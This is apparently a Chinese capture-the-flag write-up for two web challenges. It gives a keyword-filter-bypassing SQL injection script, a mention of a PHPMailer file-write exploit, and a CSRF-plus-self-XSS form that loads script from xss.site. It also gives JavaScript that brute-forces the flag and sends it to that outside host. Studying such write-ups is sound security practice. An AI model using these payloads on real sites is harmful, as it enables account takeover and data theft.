 队里的师傅反编译apk后查看逻辑，发现就是将数据内容与密钥1470循环亦或后正常的post提交。有两个页面，index.php用来登录 mail.php用来发邮件。首先发现参数有sql关键字的过滤，然后参数内容用‘or 1=1# 发现user返回了admin，但是result还是false，不能进行下一步发邮件的操作。然后思考能不能用union或者盲注把admin用户的password跑出来。但是（）被过滤，不能使用函数，时间盲注不了，然后password字段被过滤，布尔值注入也不能成功。然后发现用union%0aselect能成功绕过过滤，into被过滤，也不能成功写文件。然后可用的关键字还有order by。两者结合发现自己union注入出来的列和原本的admin列同时存在的时候order by 3。然后回显中出现了username的那一列相对字典序要小一点。和盲注差不多就能跑出来了。认证过程放入step1函数，注入代码如下

```
for i in string.printable:
        username = "'or 1=1 unionxa0select 2,'233','%s' order by 3    #"%i
        print username
        if step1(username, password)['username'] == 'admin':
            print last
            break
        last=i
```

注入出来后md5解密。第二个接口是phpmailer漏洞，结合hint根目录不可写，在upload目录下写入php，得到flag

**<br>**

**Web-onlymyself**

大概浏览网站，有注册，登陆，修改个人资料，记录note，搜索note，提交bug这几个功能。

然后挨着测试是否有功能缺陷。admin是系统自带的，所以猜测flag在admin用户哪里。可以利用xss进入管理员账号。然后发现有交互的功能只存在于提交bug那里。然后发现漏洞链接那里存在xss漏洞。而且xss漏洞进去那个页面存在注入。后来才知道是设计不完善，于是重新思考，猜测会模拟管理员去点击提交的那一个链接，可以利用javascript伪协议或者csrf漏洞+selfxss。选择的后者，在更改个人资料的时候发现并没有验证csrftoken,所以写了一个利用csrf的html网页

```
&lt;form id="ffrom" action="http://58.213.63.30:10003/checkProfile.php" method="POST" id="profile" enctype="multipart/form-data"&gt;
&lt;input type="file" id="image" name="image" data-filename-placement="inside" style="left: -179.99px; top: 19.3333px;"&gt;&lt;/a&gt;
&lt;input name="nick" id="nick" value="&lt;scriimgpt src=//xss.site/1.js&gt;/*"&gt;
&lt;input name="age" id="age" value ="2"&gt;
&lt;input name="address" id="address" value="&lt;/scripimgt&gt;"&gt;
&lt;input class="btn btn-primary" id="submit" name="submit" type="submit" value="Submit"&gt;&lt;/div&gt;
        &lt;/form&gt;
&lt;script&gt;submit.click()&lt;/script&gt;
```

只要让服务器的bot先访问csrf网页，在访问首页就可以了。这样能成功xss到管理员。但是cookie有httponly标记，所以不能直接用管理员账号登录。读取了note.php网页后发现里面并没有flag。然后就思考会不会是利用search.php枚举flag。然后写出js代码。

```
tab="_0123456789abcdefghijklmnopqrstuvwxyz}"
str=''
$.ajaxSettings.async=false
while(true){
  for(i=0;i&lt;tab.length;i++){
    //console.log(tab[i]);
    flag=false
    x=$.get('http://58.213.63.30:10003/search.php?keywords=zctf{'+str+''+tab[i]);
    if(x.status==404) flag=true;
    if(!flag) break;
  }
  str+=tab[i];
  console.log(str);
  if(tab[i]=='}') break;
}
location.href=’//xss.site’+str
```

